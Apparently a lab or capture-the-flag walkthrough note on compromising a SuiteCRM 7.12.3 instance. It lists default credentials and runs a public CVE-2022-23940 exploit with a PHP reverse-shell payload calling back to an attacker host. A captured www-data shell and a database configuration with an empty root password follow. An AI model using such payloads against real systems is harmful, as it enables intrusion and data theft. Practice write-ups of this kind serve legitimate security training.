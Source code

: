 [http://192.168.196.146/ical-server.php](#http://192.168.196.146/ical-server.php)

admin:password

-  downloads ical\-server\.ics file

[http://192.168.196.146/index.php](#http://192.168.196.146/index.php)

admin:admin

SuiteCRM version 7\.12\.3 

[https://github.com/manuelz120/CVE-2022-23940](#https://github.com/manuelz120/CVE-2022-23940)


-  python exploit\.py \-h [http://192.168.196.146](#http://192.168.196.146)
\-u admin \-p admin \-\-payload "php \-r '\\$sock=fsockopen\(\\"192\.168\.45\.221\\", 4444\); exec\(\\"/bin/sh \-i \<\&3 \>\&3 2\>\&3\\"\);'"
$ www\-data

'dbconfig' =\> 
array \(
'db\_host\_name' =\> 'localhost',
'db\_host\_instance' =\> 'SQLEXPRESS',
'db\_user\_name' =\> 'root',
'db\_password' =\> '',
'db\_name' =\> 'suitecrm',
'db\_type' =\> 'mysql',
'db\_port' =\> '',
'db\_manager' =\> 'MysqliManager',
'collation' =\> 'utf8mb4\_general\_ci',
'charset' =\> 'utf8mb4',
\),
